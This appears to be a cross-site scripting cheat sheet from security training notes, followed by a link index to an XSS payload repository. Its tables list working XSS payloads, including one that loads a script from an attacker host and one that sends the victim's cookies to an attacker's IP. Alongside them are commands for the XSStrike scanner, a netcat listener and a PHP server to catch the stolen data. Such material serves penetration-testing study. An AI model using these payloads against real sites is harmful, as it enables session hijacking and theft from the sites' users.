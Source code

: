 ### XSS Payloads

| Code                                                                                          | Description                                   |
| --------------------------------------------------------------------------------------------- | --------------------------------------------- |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                             |
| `<plaintext>`                                                                                 | Basic XSS Payload (renders page as plaintext) |
| `<script>print()</script>`                                                                    | Basic XSS Payload (triggers print dialog)     |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload                        |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color                       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image                       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title                          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite Website's Main Body                 |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove Certain HTML Element                   |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load Remote Script                            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie Details to Attacker               |

### Commands

| Code                                                                | Description                     |
| ------------------------------------------------------------------- | ------------------------------- |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run XSStrike on a URL parameter |
| `sudo nc -lvnp 80`                                                  | Start Netcat Listener           |
| `sudo php -S 0.0.0.0:80`                                            | Start PHP Server                |


## Summary

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#summary)

- [Methodology](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#methodology)
- [Proof of Concept](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#proof-of-concept)
    - [Data Grabber](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber)
    - [CORS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#cors)
    - [UI Redressing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#ui-redressing)
    - [Javascript Keylogger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#javascript-keylogger)
    - [Other Ways](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#other-ways)
- [Identify an XSS Endpoint](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#identify-an-xss-endpoint)
    - [Tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tools)
- [XSS in HTML/Applications](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications)
    - [Common Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#common-payloads)
    - [XSS using HTML5 tags](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-html5-tags)
